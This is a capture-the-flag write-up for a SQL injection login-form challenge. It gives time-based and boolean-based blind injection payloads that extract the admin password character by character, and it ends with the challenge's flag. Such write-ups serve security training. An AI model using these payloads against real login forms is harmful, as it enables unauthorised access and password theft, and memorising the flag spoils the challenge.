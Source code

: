 # [SQL Injection Level 5](http://s1063.vdi.mipt.ru:8000/challenges#SQL%20Injection%20Level%205)
### [Login form](http://chall1.ctf.pwne.xyz:5555/level5/)

# Solution 1 (very noticeable)
1. Let's find the password length:
login: `admin' and (select if(length(password)=<N>,sleep(2),0)); #`, where N - guessed length.
After bruteforce we get password length **32**.
2. Only thing I came up with is to figure out every single character in the password:
login: `admin' and (select if(ASCII(lower(substring((password),<N>,1)))>90,sleep(2),0)); #`, where N - index.

# Solution 2 (more quite)
The same idea, but if condition is true we login, otherwise we don't:
1. Length:
login: `smth' or username=if(length(password)=<N>,'admin','smth') #`
2. Chars one by one:
login: `smth' or username=if(ASCII(lower(substring(password,<N>,1)))><N>,'admin','smth') #`

**Answer**: `flag{70cba351d59d3e2a60cd1eb201f1f7fa}`